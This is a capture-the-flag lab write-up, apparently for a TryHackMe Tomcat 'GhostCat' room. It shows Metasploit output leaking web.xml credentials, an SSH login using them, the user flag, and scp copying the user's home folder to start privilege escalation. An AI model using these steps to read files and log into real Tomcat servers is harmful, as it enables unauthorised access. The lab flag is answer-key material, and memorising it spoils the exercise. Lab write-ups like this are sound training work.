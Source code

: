 ```
See the License for the specific language governing permissions and
limitations under the License.
-->

<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0"
metadata-complete="true">

<display-name>Welcome to Tomcat</display-name>
<description>
Welcome to GhostCat
skyfuck:8730281lkjlkjdqlksalks
</description>

</web-app>

[+] 10.10.212.86:8080 - /home/its_a_me/.msf4/loot/20211029191143_default_10.10.212.86_WEBINFweb.xml_261102.txt
[*] Auxiliary module execution completed
```

Found credentials:

`skyfuck : 8730281lkjlkjdqlksalks`

ssh port open maybe we can ssh with those

bingo!

```
skyfuck@ubuntu:~$ whoami
skyfuck
```

we go straight home and find two folders

user merlin got our user flag

```
THM{tomcat_is_dead}
```

## Priviledge Escalation

The second folder have two files pgp and asc files

Might be key for decryption and privileges escalation?

I want those files...so I get them

I scp the whole skyfck folder from another terminal with

`scp -r skyfuck@10.10.152.29:/home/skyfuck .`
